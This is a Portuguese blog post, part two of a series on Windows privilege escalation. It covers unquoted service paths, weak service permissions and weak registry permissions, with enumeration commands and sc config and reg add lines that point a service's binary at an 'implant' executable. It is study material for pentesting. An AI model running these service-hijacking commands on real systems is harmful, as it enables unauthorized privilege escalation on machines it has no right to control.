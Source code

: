 ```yaml
---
layout: post
title: windows priv-esc pt2
date: 2024-05-15
description: serie de windows Priv-Esc
categories: windows bhatagem
---
```


#### A primeira parte dessa serie teve algumas notas sobre services, permissões, privilégios, etc. 
#### Logo quando terminei a primeira vi que ja estava muita coisa pra um post só, então decidi dividir em mais duas partes, essa aqui e mais uma em breve...
#### Essa segunda parte aborda algumas tecnicas sobre priv-esc com permissões de services e também deixei algumas referências para leitura adicional.

## Insecured Objects (Non Admin Medium IL)

### Insecured Services

#### Priv Esc usando insecured objects, especificamente abusando dos Windows Services.

#### A primeira tecnica é chamada ```Insecure Service Path``` (unquoted and with spaces in paths):

- Ache services com espaços no binary path
- ``` C:\> wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """ ```


- Exploration
  - [https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#unquoted-service-paths](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#unquoted-service-paths)
  - [https://www.ired.team/offensive-security/privilege-escalation/unquoted-service-paths](https://www.ired.team/offensive-security/privilege-escalation/unquoted-service-paths)


#### A segunda tecnica é chamada de ```insecure config services``` ou ```weak services permission```

- Permite um usuário com poucos privilégios ter permissão para alterar a configuração de um service. Por exemplo, alterar o binário que um service usa quando inicia...

- Isso mostrará uma lista de cada service e os grupos que têm permissões de gravação para esse service. Fornecer um grupo limitará a saída aos serviços para os quais o grupo tem permissão de gravação:

- ``` C:\> accesschk.exe -accepteula -wuvc "Authenticated Users" * ```
- ``` C:\> accesschk.exe -accepteula -wuvc "Users" * ```
- ``` C:\> accesschk.exe -accepteula -wuvc "Everyone" * ```

- Para ver as configs do service:
- ``` C:\> sc query <service-name> ``` - lista services
- ``` C:\> sc qc <service-name> ``` - info do service


- Alterar a config e restart no service (se precisar)
- ``` sc config sshd binPath= "c:\implant\implant.exe" ```
- ``` sc start <service-name> ```

- Exploration
  - [https://juggernaut-sec.com/weak-service-permissions-windows-privilege-escalation/](https://juggernaut-sec.com/weak-service-permissions-windows-privilege-escalation/)
  - [https://www.hackingarticles.in/windows-privilege-escalation-weak-services-permission/](https://www.hackingarticles.in/windows-privilege-escalation-weak-services-permission/)
  - [https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#permissions](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#permissions)
  - [https://www.ired.team/offensive-security/privilege-escalation/weak-service-permissions](https://www.ired.team/offensive-security/privilege-escalation/weak-service-permissions)


#### A terceira tecnica é modificar permissões dos Registries (weak registry permissions)

- Lista dos services
- ``` C:\> accesschk.exe -accepteula -kwuqsw hklm\System\CurrentControlSet\services > output.txt ```
  - em um cenário real você faz download do arquivo para a attack machine e analisa "offline"

- reconfigurando services vulneraveis:

- Ver os paths do binarios:
- ``` reg query HKLM\SYSTEM\CurrentControlSet\services\ /s /v imagepath ```

- ``` reg add HKLM\SYSTEM\CurrentControlSet\services\<service-name> /v ImagePath /t REG_EXPAND_SZ /d C:\implant\implant.exe /f ```


- Exploration
  - [https://cr0mll.github.io/cyberclopaedia/Post%20Exploitation/Privilege%20Escalation/Windows/Misconfigured%20Services/Weak%20Registry%20Permissions.html](https://cr0mll.github.io/cyberclopaedia/Post%20Exploitation/Privilege%20Escalation/Windows/Misconfigured%20Services/Weak%20Registry%20Permissions.html)
  - [https://systemweakness.com/windows-privilege-escalation-weak-registry-permissions-9060c1ca7c10](https://systemweakness.com/windows-privilege-escalation-weak-registry-permissions-9060c1ca7c10)
  - [https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services-registry-modify-permissions](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services-registry-modify-permissions)
  - [https://www.hackingarticles.in/windows-privilege-escalation-weak-registry-permission/](https://www.hackingarticles.in/windows-privilege-escalation-weak-registry-permission/)


>___
